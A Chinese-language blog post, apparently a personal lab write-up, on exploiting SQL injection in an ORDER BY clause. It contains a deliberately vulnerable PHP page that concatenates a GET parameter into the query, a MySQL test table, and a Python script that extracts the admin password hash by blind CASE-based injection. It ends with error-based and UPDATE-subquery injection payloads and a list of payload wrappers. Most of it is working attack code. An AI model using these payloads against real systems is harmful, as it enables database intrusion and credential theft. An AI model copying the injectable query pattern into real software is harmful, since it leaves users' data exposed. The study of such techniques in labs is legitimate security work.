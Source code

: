 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 {% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e
{% endhighlight %}

php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'

update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
